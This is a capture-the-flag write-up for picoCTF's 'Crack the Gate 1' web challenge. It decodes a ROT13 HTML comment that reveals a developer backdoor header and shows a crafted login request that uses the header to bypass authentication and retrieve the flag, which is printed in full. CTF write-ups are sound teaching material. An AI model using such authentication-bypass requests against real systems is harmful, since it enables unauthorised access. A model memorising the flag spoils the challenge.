





# PicoCTF - Crack the Gate 1 Writeup

## Challenge Information

**Challenge Name:** Crack the Gate 1  
**Category:** Web Exploitation  
**Description:**  
We're in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal. We've uncovered the email address he uses to log in: `ctf-player@picoctf.org`. Unfortunately, we don't know the password, and the usual guessing techniques haven't worked. But something feels off... it's almost like the developer left a secret way in. Can you figure it out?

## Initial Analysis

The challenge description hints at two key points:
- We have the email address: `ctf-player@picoctf.org`
- There's a "secret way in" suggesting a developer backdoor

## Solution

### Step 1: Reconnaissance

After launching the challenge instance, we're presented with a login form. The first step in any web challenge is to examine the source code.



**Hint 1** suggests: *"Developers sometimes leave notes in the code; but not always in plain text."*

Viewing the page source reveals an HTML comment:



```html
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
<!-- Remove before pushing to production! -->
```

### Step 2: Decoding the Message



**Hint 2** provides the crucial clue: *"A common trick is to rotate each letter by 13 positions in the alphabet."*

This is a clear reference to **ROT13**, a simple letter substitution cipher that replaces each letter with the letter 13 positions after it in the alphabet.

Using a ROT13 decoder (such as CyberChef), we decode the message:



**Encoded:** `ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf"`  
**Decoded:** `NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"`

This reveals a developer backdoor: a custom HTTP header `X-Dev-Access: yes` that bypasses authentication!

### Step 3: Exploiting the Backdoor

To exploit this backdoor, we need to add the custom header to our HTTP request. We can use Burp Suite to intercept and modify the login request.

**Steps:**
1. Configure your browser to use Burp Suite as a proxy
2. Intercept the login request with the following credentials:
   - Email: `ctf-player@picoctf.org`
   - Password: `aaa` (or any random value - it doesn't matter)
3. Add the header `X-Dev-Access: yes` to the request
4. Forward the modified request

**Modified Request:**
```http
POST /login HTTP/1.1
Host: amiable-citadel.picoctf.net:59940
Content-Type: application/json
X-Dev-Access: yes

{
  "email": "ctf-player@picoctf.org",
  "password": "aaa"
}
```

### Step 4: Capture the Flag

The server responds with a successful authentication and returns the flag in the response:



```json
{
  "success": true,
  "email": "ctf-player@picoctf.org",
  "firstName": "pico",
  "lastName": "player",
  "flag": "picoCTF{brut4_f0rc4_0d39383f}"
}
```

## Flag

**picoCTF{brut4_f0rc4_0d39383f}**
